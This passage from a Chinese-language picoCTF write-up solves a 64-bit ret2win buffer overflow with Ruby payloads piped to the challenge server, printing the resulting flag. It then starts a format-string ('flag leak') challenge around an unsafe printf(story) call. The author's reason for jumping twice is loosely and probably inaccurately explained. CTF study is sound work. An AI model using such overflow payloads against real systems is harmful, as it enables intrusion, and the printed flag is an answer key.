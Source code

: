 发现函数地址就是`0x4012ba`, 然后试试看能不能跳转运行. 

奇怪, 在本地可以运行, 但是在远程没有结果? 

```shell
> ruby -e ' print "a" * 72 + "\x00\x00\x00\x00\x00\x40\x12\x36".reverse ' | ./vuln 
Welcome to 64-bit. Give me a string that gets you the flag: 
NeSE{fake_flag}
zsh: done                              ruby -e ' print "a" * 72 + "\x00\x00\x00\x00\x00\x40\x12\x36".reverse ' | 
zsh: segmentation fault (core dumped)  ./vuln
> ruby -e ' print "a" * 72 + "\x00\x00\x00\x00\x00\x40\x12\x36".reverse ' | nc saturn.picoctf.net 53636
Welcome to 64-bit. Give me a string that gets you the flag:
```

看来还要一些操作才行. 
我多跳转几次, 让它不得不来听我的话: 

```ruby
puts "a" * 72 + "\x00\x00\x00\x00\x00\x40\x12\xd2".reverse
puts "a" * 72 + "\x00\x00\x00\x00\x00\x40\x12\x36".reverse
```

(以前见过类似的问题, 因为程序用了特定的函数, 会在跳转的时候, 
试图产生错误, 但是跳两次之后就会让程序放弃这个错误)

```shell
> ruby test.rb | nc saturn.picoctf.net 53636
Welcome to 64-bit. Give me a string that gets you the flag: 
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_964d9987}
```

### flag leak
观察代码, 发现漏洞的: 

```C
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

这里面有一个不安全的东西: (确切来说是一个不安全的组合)
因为`scanf("%127s", story);`读取了用户的输入, 
然后`printf(story);`直接将用户的输入不仅保护地输出了, 
于是就有格式化字符串漏洞. 所以试试看.
